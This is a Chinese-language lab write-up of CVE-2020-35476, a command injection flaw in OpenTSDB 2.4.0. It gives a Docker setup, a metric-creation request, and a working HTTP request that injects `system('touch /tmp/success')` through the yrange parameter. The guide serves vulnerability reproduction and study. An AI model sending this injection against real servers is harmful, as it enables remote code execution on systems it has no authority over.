


# OpenTSDB 命令注入漏洞（CVE-2020-35476）

OpenTSDB是一款基于Hbase的、分布式的、可伸缩的时间序列数据库。在其2.4.0版本及之前，存在一处命令注入漏洞。

参考链接：

- https://github.com/OpenTSDB/opentsdb/issues/2051
- https://packetstormsecurity.com/files/136753/OpenTSDB-Remote-Code-Execution.html

## 漏洞环境

执行如下命令启动一个OpenTSDB 2.4.0：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:4242`即可看到OpenTSDB的Web接口。

## 漏洞复现

利用这个漏洞需要知道一个metric的名字，我们可以通过`http://your-ip:4242/api/suggest?type=metrics&q=&max=10`查看metric列表：


我们这里的metrics是空的。

好在当前OpenTSDB开启了自动创建metric功能（`tsd.core.auto_create_metrics = true`），所以我们可以使用如下API创建一个名为`sys.cpu.nice`的metric并添加一条记录：

```
POST /api/put/ HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 150

{
    "metric": "sys.cpu.nice",
    "timestamp": 1346846400,
    "value": 20,
    "tags": {
       "host": "web01",
       "dc": "lga"
    }
}
```

如果目标OpenTSDB存在metric，且不为空，则无需上述步骤。

发送如下数据包，其中参数`m`的值必须包含一个有数据的metric：

```
GET /q?start=2000/10/21-00:00:00&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[0:system(%27touch%20/tmp/success%27)]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json HTTP/1.1
Host: your-ip:4242
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close


```



进入容器中可见`touch /tmp/success`已成功执行：


